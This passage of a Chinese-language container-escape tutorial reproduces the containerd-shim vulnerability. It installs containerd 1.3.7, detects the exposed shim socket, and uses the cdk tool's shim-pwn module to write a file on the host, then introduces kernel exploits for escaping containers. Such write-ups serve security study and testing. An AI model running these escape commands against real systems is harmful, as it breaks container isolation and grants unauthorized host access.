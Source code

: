 > 容器使用root用户(即UID 0); 
>
> containerd版本在 <=1.3.7 
>



```plain
#为了复现，卸载本地containerd，并安装存在漏洞的版本
apt remove containerd
apt install containerd.io=1.3.7-1
```



```plain
#确认是否存在漏洞,如果有返回结果，则说明存在
cat /proc/net/unix | grep 'containerd-shim' | grep '@'
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665998744486-d94851a9-3be6-4224-82f2-bcac7b24f7d1.png)

使用cdk进行攻击

```plain
./cdk_linux_amd64_upx run shim-pwn "touch /tmp/22222222"
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665998889147-baf156d1-6a4b-4509-81f1-a95f5b45a65a.png)

成功在宿主机上写入文件

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665998893710-9bb43dfc-8528-48e9-965d-4275a1aef492.png)



# <font style="color:rgb(36, 41, 47);">内核漏洞</font>
这里将内核提权漏洞用于容器提权的场景，是因为容器与宿主机共享内核，在容器中使用内核漏洞可提权获取宿主机权限，从而逃逸出容器。

